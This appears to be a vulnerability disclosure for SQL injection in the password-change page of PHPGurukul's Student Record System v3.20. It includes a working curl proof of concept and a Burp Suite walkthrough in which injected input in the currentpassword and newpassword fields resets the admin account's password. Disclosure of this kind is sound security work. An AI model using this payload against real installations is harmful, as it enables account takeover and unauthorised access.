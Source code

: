 # SQL Injection in Student Record System Using PHP and MySQL v3.20

- Vendor : PHPGurukul
- Product : Student Record System Using PHP and MySQL
- Version : 3.20
- Official Website: https://phpgurukul.com/student-record-system-php/

- Related Code file: change-password.php
- Injection parameter: currentpassword, newpassword

## Vulnerability Description
The vulnerability is SQL Injection in Student Record System Using PHP and MySQL version 3.20
The currentpassword, newpassword parameters are vulnerable to SQL Injection when changing to a new password.
This vulnerability allows an attacker to inject a SQL query into the currentpassword, newpassword parameters to change the password of another user.

#### Impact Assessment 
This vulnerability allows an authenticated attacker to manipulate SQL queries during the password change process, potentially leading to:
- Unauthorized password changes for other user accounts

- Affected Endpoint : http://127.0.0.1:8888/change-password.php
- PoC : ```
```
curl -i -s -k -X POST \
    -H "Content-Type: application/x-www-form-urlencoded" \
    -b "PHPSESSID=lg6rlbg3j0f1iaqfdvdvs9c4i3" \
    -d "currentpassword=' or id='1' -- -&newpassword=sqli' where id='1' -- -&confirmpassword=test&submit=Change" \
    "http://127.0.0.1:8888/change-password.php"
```

1. The account information for the current system looks like this:
   ![[1-pentest-20250829-0116.jpg]]

2. Login:
   ![[1-pentest-20250829-0110.jpg]]![[2-pentest-20250829-0110.jpg]]

3. Users can try to change the password:
   ![[1-pentest-20250829-0112.jpg]]

4. Intercept the traffic with burp suite and inject the SQL injection payload:
   `Payload: ' or id='1' -- -&newpassword=sqli' where id='1' -- -`
   ![[2-pentest-20250829-0112.jpg]]![[1-pentest-20250829-0120.jpg]]

5. The password for the admin account was changed to the string 'sqli'.   ![[1-pentest-20250829-0118.jpg]] 
